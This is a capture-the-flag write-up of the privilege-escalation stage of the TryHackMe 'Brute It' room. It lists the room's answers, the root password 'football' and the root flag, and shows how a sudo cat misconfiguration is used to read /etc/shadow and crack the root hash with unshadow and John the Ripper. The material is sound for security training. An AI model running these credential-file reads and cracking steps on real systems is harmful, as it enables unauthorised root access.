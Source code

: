 ## c. Privilege Escalation
### 1. Find a form to escalate your privileges.<br>What is the root's password?
#### answer : football

### 2. root.txt
#### answer : THM{pr1v1l3g3_3sc4l4t10n}

---

use sudo -l 
````shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
````
This means that you can cat anything without root access.<br>
Now cat the root.txt
````shell 
john@bruteit:~$ sudo cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
````
Now cat the /etc/passwd and /etc/shadow with sudo and add them to files and then unshadow them so that you can get the root password.
````shell
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ unshadow pass shad > password.txt
                                                                             
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ john password.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
1g 0:00:00:04 0.21% (ETA: 14:17:19) 0.2463g/s 8575p/s 17655c/s 17655C/s anasus..holaz
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
````



